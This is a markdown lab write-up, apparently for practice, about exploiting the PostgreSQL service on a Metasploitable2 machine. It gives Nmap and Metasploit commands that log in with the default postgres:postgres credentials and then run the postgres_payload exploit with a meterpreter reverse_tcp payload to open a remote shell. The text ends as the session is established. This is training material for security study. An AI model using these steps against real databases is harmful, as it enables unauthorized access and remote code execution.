




# Exploiting PostgreSQL Database Service

PostgreSQL is a powerful, open-source relational database system widely used in various applications and environments. Instances of PostgreSQL can often be vulnerable due to default configurations, weak credentials, or known software vulnerabilities, potentially allowing unauthorized access to sensitive data or even remote code execution.

In this lab, we will explore methods to exploit the PostgreSQL service running on the Metasploitable2 target machine. Our objective is to gain unauthorized access to the database, which may lead to data exfiltration or system compromise.

We will begin by verifying the service and version with Nmap, then proceed to enumerate its users/credentials or search for specific exploits in Metasploit to gain access.

## 1. Network Configuration

* **Metasploitable2 (Target IP):** `192.168.100.10`
* **Kali Linux (Attacker IPs):**
    * `192.168.100.5` (for attacking Metasploitable2)
    * `172.24.129.21` (for SSH access)

## 2. Exploitation Steps

### 2.1: Service Enumeration (Nmap Scan)

* **Objective:** Confirm the presence and version of the PostgreSQL database service on the target machine, which typically runs on port 5432.

* **Command Executed:**
    ```bash
    sudo nmap -sV -p 5432 192.168.100.10
    ```

* **Results:**
    The Nmap scan confirmed that port `5432` was open on `192.168.100.10`. The service running on this port was identified as **PostgreSQL**, along with its version number, 8.3.0-8.3.7.

     

### 2.2: Metasploit Exploit / Auxiliary Search (or Credential Guessing)

* **Objective:** Launch Metasploit and search for available modules (exploits or auxiliary modules) related to PostgreSQL, or attempt to guess default/common credentials.

* **Commands Executed:**
    ```bash
    msfconsole
    search postgres
    ```

* **Results:**
The search identified several PostgreSQL-related modules, including scanners and exploits. Given the objective of gaining database access, the auxiliary/scanner/postgres/postgres_login module was chosen to attempt authentication using common default credentials, as this is a frequent vulnerability on test systems.



### 2.3: Configure and Execute the Exploit / Auxiliary Module

* **Objective:** Configure the chosen Metasploit module (exploit or auxiliary) to target `192.168.100.10` and proceed with the attack.

* **Commands Executed:**


    ```bash
   use auxiliary/scanner/postgres/postgres_login
   set RHOSTS 192.168.100.10
   set USERNAME postgres
   set PASSWORD postgres
   show options
   run
   ````
    

* **Results:**
    The postgres_login module successfully authenticated to the PostgreSQL database using the default credentials postgres:postgres. The output Login Successful: postgres:postgres@template1 confirmed valid access.

    


### 2.4: Leveraging Authenticated Access for a Shell (PostgreSQL Payload)

* **Objective:** Utilize the obtained postgres:postgres credentials to execute a reverse shell payload on Metasploitable2 via the PostgreSQL service, aiming for a system shell.

* **Commands Executed:**
    ```bash
    use exploit/linux/postgres/postgres_payload
    set RHOSTS 192.168.100.10
    set PAYLOAD linux/x86/meterpreter/reverse_tcp  # Corrected payload
    set LHOST 192.168.100.5
    set LPORT 4445
    set USERNAME postgres
    set PASSWORD postgres
    show options
    exploit
    ```

* **Results:**
    Initially, the `cmd/unix/reverse` payload was attempted, but it was found to be incompatible with this specific exploit module, resulting in an "Exploit failed: cmd/unix/reverse is not a compatible payload" error. To resolve this, the `show payloads` command was used in Metasploit to list all compatible payloads for `exploit/linux/postgres/postgres_payload`.

    From the list of compatible payloads, `payload/linux/x86/meterpreter/reverse_tcp` was selected. This choice was based on the target system's architecture (Metasploitable2 is a 32-bit Linux system, indicated by `x86`) and the desire for a more robust and feature-rich Meterpreter session, which offers advanced post-exploitation capabilities compared to a basic command shell.

    Upon setting the correct payload and re-running the exploit, a Meterpreter session was successfully established:
   
     